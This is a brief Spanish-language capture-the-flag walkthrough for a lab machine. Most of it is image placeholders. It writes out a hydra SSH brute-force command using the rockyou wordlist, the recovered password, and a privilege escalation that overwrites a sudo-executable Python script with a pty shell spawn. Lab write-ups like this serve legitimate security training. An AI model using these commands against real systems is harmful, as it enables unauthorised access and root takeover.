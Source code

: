 # NMAP

![alt text](image.png)

# WEB

![alt text](image-1.png)

# Fuerza Bruta

    hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.146.26 -t4

![alt text](image-2.png)

# SSH

![alt text](image-3.png)

# User Flag

iloveyou1

cat user.txt

![alt text](image-5.png)

# Escalada de Privilegios

sudo -l

![alt text](image-6.png)

    rm -f bak.py

    echo 'import pty; pty.spawn("/bin/sh")' > /home/meliodas/bak.py

    sudo python /home/meliodas/bak.py

![alt text](image-7.png)

# Root Flag

![alt text](image-8.png)

